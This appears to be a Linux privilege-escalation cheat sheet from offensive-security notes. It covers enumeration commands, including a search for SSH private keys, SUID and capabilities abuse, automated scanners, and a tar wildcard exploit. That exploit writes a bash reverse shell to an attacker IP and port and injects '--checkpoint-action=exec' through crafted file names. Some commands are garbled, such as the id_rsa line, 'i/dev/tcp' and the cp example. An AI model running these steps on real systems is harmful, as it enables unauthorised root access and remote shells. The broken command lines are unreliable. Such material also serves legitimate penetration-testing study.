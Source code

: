 ```yaml
---
title: 5 - Privesc Linux
---
```


# Privesc Checklist

---

 > 
 > **<font color=red>sudo -l</font>**</br>
 > Display commands allowed to run with root privileges.

 > 
 > **<font color=red>history</font>**</br>
 > Show shell history.

 > 
 > **<font color=red>env</font>**</br>
 > Show environment variables.

 > 
 > **<font color=red>find / -perm -u=s -type f 2>/dev/null</font>**</br>
 > Search for commands with SUID enabled (then check [https://gtfobins.github.io/](https://gtfobins.github.io/)) 

 > 
 > **<font color=red>getcap -r / 2>/dev/null</font>**</br>
 > Search for commands with capabilities (then check [https://gtfobins.github.io/](https://gtfobins.github.io/)) 

 > 
 > **<font color=red>find / -writable 2>/dev/null</font>**</br>
 > Search for writable folders.

 > 
 > **<font color=red>\<find / -name id_rsa 2> /dev/null/br></font>**</br>
 > Search for SSH private keys.

 > 
 > **<font color=red>cat /etc/crontab</font>**</br>
 > Looking for automated scripts.

# Others Suggestions

---

* Determining the kernel of the machine and search for kernel exploitation (such as Dirtyc0w).
* Misconfigured file and directory permissions.
* pspy (process snooping): https://github.com/DominicBreuker/pspy 

# Automated Scripts

---

### LINPEAS

https://github.com/carlospolop/PEASS-ng/releases

 > 
 > **<font color=red>./linpeas.sh</font>**

---

### LINEUM

https://github.com/rebootuser/LinEnum

 > 
 > **<font color=red>./LinEnum.sh</font>**

# SUID Examples

---

### CP

 > 
 > **<font color=red>cp /root/</font> /home/myUser/**</br>
 > **<font color=red>cd</font> /home/myUser/root**</br>
 > Access root content.

---

### BASH

 > 
 > **<font color=red>bash -p</font>**</br>
 > Get a root shell.

# Wildcard Exploitation

---

### Resource

[https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/)

### Example

Script running as root:

 > 
 > **tar cf /home/myUser/backups/backup.tgz \***

Exploit:

 > 
 > **<font color=red>echo "bash -i >& i/dev/tcp/</font>\[ATTACKER IP\]<font color=red>/</font>\[ATTACKER PORT\] <font color=red>0>&1" > </font>revshell.sh**</br>
 > **<font color=red>touch "</font>/home/myUser/backups/<font color=red>--checkpoint-action=exec=</font>sh revshell.sh<font color=red>"</font>**</br>
 > **<font color=red>touch "</font>/home/myUser/<font color=red>"--checkpoint=1"</font>**</br>
